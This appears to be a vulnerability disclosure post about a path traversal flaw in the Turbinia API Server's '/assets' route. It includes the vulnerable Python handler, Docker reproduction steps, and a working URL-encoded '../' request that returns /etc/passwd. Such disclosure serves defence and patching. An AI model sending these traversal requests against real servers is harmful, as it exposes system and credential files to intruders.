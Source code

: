```yaml
---
layout: post
title:  "Google: Local File Inclusion in Turbinia API Server"
date:  2024-05-08 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Local File Inclusion in Turbinia API Server

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)


## Description

A local file inclusion is present in the Turbinia API Server when requesting resource files under the `/assets/{catchall:path}` route.

## Proof of Concept

The [route](https://github.com/google/turbinia/blob/1da2d19f9b79dac8df37bdf2ed4f9d5d0797607b/turbinia/api/routes/ui.py#L47) `/assets/{catchall:path}` is used for serving CSS and JS resources for Turbinia Web service. The `catchall` parameter in url is not sanitized before appended to base path, an attacker can use `../` to escape base directory and locate any file on system which will be sent back to the attacker, causing local file inclusion issue.

```
@ui_router.get(
    '/assets/{catchall:path}', name='assets', include_in_schema=False)
async def serve_assets(request: Request):
  """Serves assets content."""
  static_content_path = pathlib.Path(_config.WEBUI_PATH).joinpath('dist/assets')
  path = request.path_params['catchall']
  file = static_content_path.joinpath(path)
  if os.path.exists(file):
    return FileResponse(file)

  raise HTTPException(status_code=404, detail='Not found')
```

### Steps to reproduce

Following official [docker tutorial](https://turbinia.readthedocs.io/en/latest/user/install.html#docker-installation) to set up the Turbinia service:

```
git clone https://github.com/google/turbinia.git
cd turbinia
mkdir -p ./conf && mkdir -p ./tmp && mkdir -p ./evidence && mkdir -p ./certs && chmod 777 ./conf ./tmp ./evidence ./certs
sed -f docker/local/local-config.sed turbinia/config/turbinia_config_tmpl.py > conf/turbinia.conf
```
Then, edit the `./docker/local/docker-compose.yml`, in `turbinia-api-server` section, expose Turbinia API Server port `8000` to host mechine by adding `ports: - "8000:8000"`:

```
...
turbinia-api-server:
        #image: "turbinia-api-server-dev" # Use this for local development and comment out below line
        image: "us-docker.pkg.dev/osdfir-registry/turbinia/release/turbinia-api-server:latest" # Latest stable
        container_name: turbinia-api-server
        depends_on:
            - redis
        volumes:
            - $PWD/evidence:/evidence
            - $PWD/conf/turbinia.conf:/etc/turbinia/turbinia.conf
        environment:
            - LC_ALL=C.UTF-8
            - LANG=C.UTF-8
            - TURBINIA_EXTRA_ARGS=${TURBINIA_EXTRA_ARGS}
        expose:
            - "8000"
        ports:
            - "8000:8000"
...
```
Finally, bring up the local Turbinia stack:

```
docker-compose -f ./docker/local/docker-compose.yml up
```

After service up, the Turbinia API Server will listen on `http://127.0.0.1:8000`. Open the webpage `http://127.0.0.1:8000` in browser and intecept requests using burp suite or chrome devtools. We can capture following request:

```
GET http://127.0.0.1:8000/assets/index-a76ac6aa.js HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: fakesession=hello
Origin: http://0.0.0.0:8000
Pragma: no-cache
Referer: http://0.0.0.0:8000/web
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Postman-Token: 0ee2337d-af8f-4873-afd8-91a9c27897b1
Host: 127.0.0.1:8000
Accept-Encoding: gzip, deflate
Connection: close
```

Modify the request by change `index-a76ac6aa.js` part to `..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd` which is `../../../../../../etc/passwd` url-encoded content.

```
GET http://127.0.0.1:8000/assets/..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: fakesession=hello
Origin: http://0.0.0.0:8000
Pragma: no-cache
Referer: http://0.0.0.0:8000/web
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Postman-Token: 0ee2337d-af8f-4873-afd8-91a9c27897b1
Host: 127.0.0.1:8000
Accept-Encoding: gzip, deflate
Connection: close
```

Or just open link: `http://127.0.0.1:8000/assets/..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd` in browser.

The output is the contents of the `/etc/passwd` file:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
turbinia:x:999:999::/home/turbinia:/sbin/nologin
```

![Turbinia](/assets/cve/Turbinia.png)

## Impact

Any file on the backend filesystem can be read by an attacker with access to the Turbinia API Server website.


## Reference

[https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67](https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67)

## Occurrences

[https://github.com/google/turbinia/blob/1da2d19f9b79dac8df37bdf2ed4f9d5d0797607b/turbinia/api/routes/ui.py#L53](https://github.com/google/turbinia/blob/1da2d19f9b79dac8df37bdf2ed4f9d5d0797607b/turbinia/api/routes/ui.py#L53)
